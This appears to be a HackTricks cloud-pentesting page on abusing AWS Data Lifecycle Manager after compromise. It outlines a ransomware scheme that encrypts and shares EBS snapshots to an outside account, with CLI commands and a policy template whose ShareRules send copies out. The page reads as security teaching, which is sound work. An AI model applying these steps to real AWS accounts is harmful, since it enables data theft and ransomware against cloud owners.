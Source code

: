 # AWS - DLM Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

A ransomware attack can be executed by encrypting as many EBS volumes as possible and then erasing the current EC2 instances, EBS volumes, and snapshots. To automate this malicious activity, one can employ Amazon DLM, encrypting the snapshots with a KMS key from another AWS account and transferring the encrypted snapshots to a different account. Alternatively, they might transfer snapshots without encryption to an account they manage and then encrypt them there. Although it's not straightforward to encrypt existing EBS volumes or snapshots directly, it's possible to do so by creating a new volume or snapshot.

Firstly, one will use a command to gather information on volumes, such as instance ID, volume ID, encryption status, attachment status, and volume type.

`aws ec2 describe-volumes`

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.

```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```

A template for the policy document can be seen here:

```bash
{
  "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
  "ResourceTypes": [
    "VOLUME"
  ],
  "TargetTags": [
    {
      "Key": "ExampleKey",
      "Value": "ExampleValue"
    }
  ],
  "Schedules": [
    {
      "Name": "DailySnapshots",
      "CopyTags": true,
      "TagsToAdd": [
        {
          "Key": "SnapshotCreator",
          "Value": "DLM"
        }
      ],
      "VariableTags": [
        {
          "Key": "CostCenter",
          "Value": "Finance"
        }
      ],
      "CreateRule": {
        "Interval": 24,
        "IntervalUnit": "HOURS",
        "Times": [
          "03:00"
        ]
      },
      "RetainRule": {
        "Count": 14
      },
      "FastRestoreRule": {
        "Count": 2,
        "Interval": 12,
        "IntervalUnit": "HOURS"
      },
      "CrossRegionCopyRules": [
        {
          "TargetRegion": "us-west-2",
          "Encrypted": true,
          "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
          "CopyTags": true,
          "RetainRule": {
            "Interval": 1,
            "IntervalUnit": "DAYS"
          }
        }
      ],
      "ShareRules": [
        {
          "TargetAccounts": [
            "123456789012"
          ],
          "UnshareInterval": 30,
          "UnshareIntervalUnit": "DAYS"
        }
      ]
    }
  ],
  "Parameters": {
    "ExcludeBootVolume": false
  }
}
```

{{#include ../../../../banners/hacktricks-training.md}}




